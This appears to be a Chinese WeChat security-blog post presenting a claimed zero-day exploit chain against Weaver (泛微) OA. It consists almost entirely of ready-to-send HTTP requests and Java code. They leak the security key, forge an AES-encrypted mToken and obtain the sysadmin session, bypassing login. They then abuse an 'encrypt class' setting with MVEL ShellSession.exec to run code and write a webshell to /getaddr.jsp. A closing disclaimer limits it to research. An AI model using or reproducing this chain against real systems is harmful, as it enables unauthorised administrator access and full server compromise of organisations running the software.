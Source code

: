 #  【0day】泛微OA前台登录绕过+后台组合拳RCE  
原创 XingYue404  星悦安全   2025-07-01 11:38  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x01 登录绕过  
### 利用/dwr/call接口读取加密key  
  
```
POST /dwr/call/plaincall/?callCount=1&c0-id=1&c0-scriptName=WorkflowSubwfSetUtil&c0-methodName=LoadTemplateProp&batchId=a&c0-param0=string:mobilemode&scriptSessionId=1&a=.swf HTTP/1.1Host: xxx:xxxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Upgrade-Insecure-Requests: 1
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ceGLwibV7eibnrbLN1s9VOtTUMFUFw5wm7jEQPWogeciaf1KLHCTIGRUiaAeyDOQmIhQIrqMQ5JjyZ0A/640?wx_fmt=other&from=appmsg "")  
  
其中security.key为 5f2f28dd-db4a-45  
### 调用aes加密函数  
  
```
import java.security.SecureRandom;import javax.crypto.Cipher;import javax.crypto.KeyGenerator;import javax.crypto.spec.SecretKeySpec;import javax.xml.bind.DatatypeConverter;publicclass Main {    public static String encrypt(String str, String str2) {        try {            KeyGenerator keyGenerator = KeyGenerator.getInstance("AES");            SecureRandom secureRandom = SecureRandom.getInstance("SHA1PRNG");            secureRandom.setSeed(str2.getBytes());            keyGenerator.init(128, secureRandom);            SecretKeySpec secretKeySpec = new SecretKeySpec(keyGenerator.generateKey().getEncoded(), "AES");            Cipher cipher = Cipher.getInstance("AES");            cipher.init(1, secretKeySpec);            return DatatypeConverter.printHexBinary(cipher.doFinal(str.getBytes()));        } catch (Exception e) {            e.printStackTrace();            return"";        }    }    public static void main(String[] args) {        System.out.println(encrypt("1;1;"+System.currentTimeMillis(),"5f2f28dd-db4a-45"));    }}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ceGLwibV7eibnrbLN1s9VOtTmMywj3iayQJ2T19WpBv1vMxXicuLMSnB8INMG1iaK11gEdxovtcCorDicw/640?wx_fmt=other&from=appmsg "")  
  
获取到密钥，即为下面需要用到的mToken  
  
### 获取sessionKey  
  
```
GET /mobilemode/mobile/server.jsp?invoker=com.api.mobilemode.web.mobile.service.MobileEntranceAction&action=meta&appid=1&appHomepageId=1&mTokenFrom=QRCode&mToken=BAAD7750912407C15FBC7CA2BDA4BDDDAEACE215E26BB871CE8D171028A66A70&_ec_ismobile=true&timeZoneOffset=&a=.swf HTTP/1.1Host: xxxx:xxxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Upgrade-Insecure-Requests: 1
```  
  
###   
  
获取到sysadmin 的sessionKey  
### 登录后台  
  
将sessionKey转换为ecology_JSessionid即可登录后台  
  
```
GET /weaver/ImgFileDownload/a.swf?sessionkey=b20e3665-d8a8-403d-a041-0c5883626da4&a=.swf HTTP/1.1Host: xxxx:xxxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Upgrade-Insecure-Requests: 1
```  
  
###   
###   
## 0x02 后台RCE  
### 添加方法  
  
```
POST /interface/outter/outter_encryptclassOperation.jsp?a=1.swf HTTP/1.1Host: xxxx:xxxIf-None-Match: "6evu6PUo/Cz"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateIf-Modified-Since: Thu, 23 Jun 2022 11:04:04 GMTContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryVnIIuCache-Control: max-age=0Upgrade-Insecure-Requests: 1Accept-Language: zh-CN,zh;q=0.9Cookie: ecology_JSessionid=aaa_db33mBm_EaOGEO8bz; __randcode__=b7e3d245-5b6b-44ba-b06b-f4b5592d68dc------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="operation"add------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="encryptname"ttttaaa------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="encryptclass"org.mvel2.sh.ShellSession------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="encryptmethod"exec------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="decryptmethod"exec------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="isdialog"0------WebKitFormBoundaryVnIIugCdViAmEyK3Content-Disposition: form-data; name="x"; filename="x"x------WebKitFormBoundaryVnIIugCdViAmEyK3--
```  
  
###   
### 查看添加的ID  
  
```
POST /api/integration/Outter/getOutterSysEncryptClassOperates?a=1.swf HTTP/1.1Host: xxxx:xxxIf-None-Match: "6evu6PUo/Cz"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateIf-Modified-Since: Thu, 23 Jun 2022 11:04:04 GMTContent-Type: application/x-www-form-urlencodedCache-Control: max-age=0Upgrade-Insecure-Requests: 1Accept-Language: zh-CN,zh;q=0.9Cookie: ecology_JSessionid=aaa_db33mBm_EaOGEO8bz; __randcode__=b7e3d245-5b6b-44ba-b06b-f4b5592d68dc
```  
  
###   
  
此处ID为2  
### 直接执行java代码写shell  
  
```
POST /interface/outter/outter_encryptclassOperation.jsp?a=1.swf HTTP/1.1Host: xxxx:xxxIf-None-Match: "6evu6PUo/Cz"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateIf-Modified-Since: Thu, 23 Jun 2022 11:04:04 GMTContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryITdrxCache-Control: max-age=0Upgrade-Insecure-Requests: 1Accept-Language: zh-CN,zh;q=0.9Cookie: ecology_JSessionid=aaa_db33mBm_EaOGEO8bz; __randcode__=b7e3d245-5b6b-44ba-b06b-f4b5592d68dc------WebKitFormBoundaryITdrxxca8L1Xo7RqContent-Disposition: form-data; name="operation"test------WebKitFormBoundaryITdrxxca8L1Xo7RqContent-Disposition: form-data; name="plaintext"马子------WebKitFormBoundaryITdrxxca8L1Xo7RqContent-Disposition: form-data; name="id"2------WebKitFormBoundaryITdrxxca8L1Xo7RqContent-Disposition: form-data; name="x"; filename="x"1------WebKitFormBoundaryITdrxxca8L1Xo7Rq--
```  
  
###   
  
写入进 /getaddr.jsp  
## 0x03 关注公众号  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**关注公众号，持续更新漏洞文章!**  
  
****  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ceGLwibV7eibnrbLN1s9VOtT4NX6MHrjbWnvSExFrJ1gIXIquQhUx0besS8XoGU1l7vWDs0icUic3l2g/640?wx_fmt=jpeg&from=appmsg "")  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
